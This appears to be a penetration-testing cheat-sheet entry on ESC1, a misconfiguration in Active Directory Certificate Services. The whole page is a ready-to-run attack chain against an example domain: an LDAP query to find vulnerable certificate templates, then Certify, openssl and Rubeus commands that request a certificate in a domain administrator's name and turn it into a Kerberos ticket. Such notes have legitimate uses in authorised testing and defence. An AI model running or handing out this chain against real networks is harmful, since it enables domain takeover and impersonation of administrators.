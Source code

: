 ```yaml
---
description: Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs
---
```


# ESC1

Condition: the vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon (`1.3.6.1.4.1.311.20.2.2`) or Client Authentication (`1.3.6.1.5.5.7.3.2`) or PKINIT Client Authentication (`1.3.6.1.5.2.3.4`) EKUs.

Find template with this misconfiguration:

```
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```

Request a certificate specifying the `/altname` as a domain admin:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:VulnTemplate /altname:DomAdmin
```

Convert `.pem` to a `.pfx` certificate:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Request a TGT with the `.pfx` certificate:

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:DomAdmin /certificate:cert.pfx /password:Passw0rdPfx! /ptt
```
